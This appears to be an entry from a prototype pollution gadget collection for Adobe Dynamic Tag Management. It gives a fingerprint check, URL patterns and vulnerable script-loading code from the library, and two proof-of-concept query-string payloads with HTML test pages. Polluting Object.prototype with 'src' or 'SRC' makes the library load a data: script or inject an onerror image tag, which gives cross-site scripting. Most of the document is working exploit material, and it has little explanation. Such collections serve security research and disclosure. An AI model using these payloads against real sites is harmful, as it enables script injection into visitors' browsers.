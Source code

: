 ## Adobe Dynamic Tag Management

URL: https://docs.adobe.com/content/help/en/dtm/using/c-overview.html

### JS Fingerprint
```
return (typeof _satellite !== 'undefined')
```

### Vulnerable code fragment
```
https://assets.adobedtm.com/[a-f0-9]+/[a-f0-9]+/launch-[a-f0-9]+.min.js
https://assets.adobedtm.com/launch-EN[a-f0-9]+.min.js
```

```js
r.prototype._handleScriptToken = function u(e) {
    var t = this, n = this.parser.clear();
    n && this.writeQueue.unshift(n),
    e.src = e.attrs.src || e.attrs.SRC,
...

a.prototype._writeScriptToken = function f(e, n) {
    var t = this._buildScript(e)
    , a = this._shouldRelease(t)
    , i = this.options.afterAsync;
    e.src && (t.src = e.src,
```

### PoC

#### PoC #1
```
?__proto__[src]=data:,alert(1)//
```

```html
<script>
  Object.prototype.src='data:,alert(1)//'
</script>
<script src="https://assets.adobedtm.com/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js" async></script>
```


#### PoC #2
```
?__proto__[SRC]=<img/src/onerror%3dalert(1)>
```

```html
<script>
  Object.prototype.SRC='<img/src/onerror=alert(1)>'
</script>
<script src="https://assets.adobedtm.com/launch-ENa21cfed3f06f4ddf9690de8077b39e81-development.min.js" async></script>
```